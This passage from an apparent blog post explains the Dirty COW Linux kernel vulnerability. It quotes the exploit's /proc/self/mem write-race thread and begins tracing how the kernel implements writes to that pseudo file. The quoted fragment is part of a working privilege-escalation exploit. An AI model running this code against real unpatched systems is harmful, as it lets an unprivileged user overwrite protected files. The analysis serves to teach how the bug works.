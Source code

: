 ```c
void *procselfmemThread(void *arg)
{
    char *str;
    str=(char*)arg;
    /*
       You have to write to /proc/self/mem :: https://bugzilla.redhat.com/show_bug.cgi?id=1384344#c16
       >  The in the wild exploit we are aware of doesn't work on Red Hat
       >  Enterprise Linux 5 and 6 out of the box because on one side of
       >  the race it writes to /proc/self/mem, but /proc/self/mem is not
       >  writable on Red Hat Enterprise Linux 5 and 6.
     */
    int f=open("/proc/self/mem",O_RDWR);
    int i,c=0;
    for(i=0;i<100000000;i++) {
        /*
           You have to reset the file pointer to the memory position.
         */
        lseek(f,(uintptr_t) map,SEEK_SET);
        c+=write(f,str,strlen(str));
    }
    printf("procselfmem %d\n\n", c);
}
```

So it first `lseek`s to the address of `map`, so it can directly write to the memory region that belongs to the supposedly _read-only_ memory mapping of the file? And somehow the modification will go through to the privileged file? But how???!!!

## `write(2)` on `/proc/{pid}/mem`

`/proc/{pid}/mem` is a [pseudo file](http://man7.org/linux/man-pages/man5/proc.5.html) that provides a sort of out-of-band memory access to a process. Another example of this type of access is the venerable [`ptrace(2)`](http://man7.org/linux/man-pages/man2/ptrace.2.html), which is, unsurprisingly, an alternative attack vector of Dirty COW.

To see how writing to `proc/self/mem` works, we'll need to burrow deeper into the kernel land. First by looking at how `write(2)` is implemented for this pseudo file.

In the land of kernel, file system operations are written in OOP style. Having one common abstract interface `struct file_operations`, different file types can provide specialised file operation implementation against the interface. For `/proc/{pid}/mem`, the definition can be found here at [`/fs/proc/base.c`](http://lxr.linux.no/linux+v4.8/fs/proc/base.c#L933):

```c
static const struct file_operations proc_mem_operations = {
    .llseek  = mem_lseek,
    .read    = mem_read,
    .write   = mem_write,
    .open    = mem_open,
    .release = mem_release,
};
```
